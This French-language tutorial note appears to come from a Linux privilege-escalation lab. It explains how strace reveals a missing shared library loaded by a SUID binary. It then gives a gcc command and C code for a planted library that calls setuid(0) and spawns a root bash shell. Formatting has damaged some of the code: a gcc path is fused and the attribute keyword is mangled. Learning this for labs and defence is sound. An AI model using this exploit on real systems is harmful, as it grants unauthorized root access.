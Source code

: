 Description :

Permet de diagnostiquer les appels systèmes. En gros à chaque fois que le programme appelle une librairie, l'ouverture de fichier,... il nous le montre. Ca peut être bordelique donc l'utilisation d'un grep est judicieuse.

Exemple :  
`strace /usr/local/bin/suid-so 2>&1`

Là on regarde tous les appels système. `2>&1` sert a rediriger les erreurs (2) vers la sortie standard (1). Le & sert juste a spécifier qu'on redirige vers un autre descripteur de fichier.

Vulnérabilité possible grâce a strace :

Si on a un fichier suid (fichier qui s'exécute avec les privilèges du owner du fichier donc s'il appartient à root, peu importe qui le lance, il se lancera en root) que tu peux voir avec la commande ls -l et voir si le bit s est actif, on pourra voir tout les appels système. Donc si on fait `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"` pour voir quelles sont les fichiers que le programme n'arrive pas à trouver, il nous les donnera. Grace à ca, on peut les créer nous même ces fichiers avec ce qu'on veut dedans.

Imaginons qu'il ne trouve pas un fichier .so nommé libcalc.so dans le dossier /home/user/.config, on peut créer le dossier .config (s'il n'existe pas encore) puis créer notre propre Shared Object à partir d'un script.

`gcc -shared -fPIC -o /home/user/.config/libcalc.so/home/user/tools/suid/libcalc.c` . Dans mon exemple, dans le fichier libcalc.c, il y a un mini script qui donne les privilèges root :

#include <stdio.h>  
#include <stdlib.h>

static void inject() **attribute**((constructor));

void inject() {  
        setuid(0);  
        system("/bin/bash -p");  
}  
Enfin, on relance le fichier suid pour voir si ca marche.
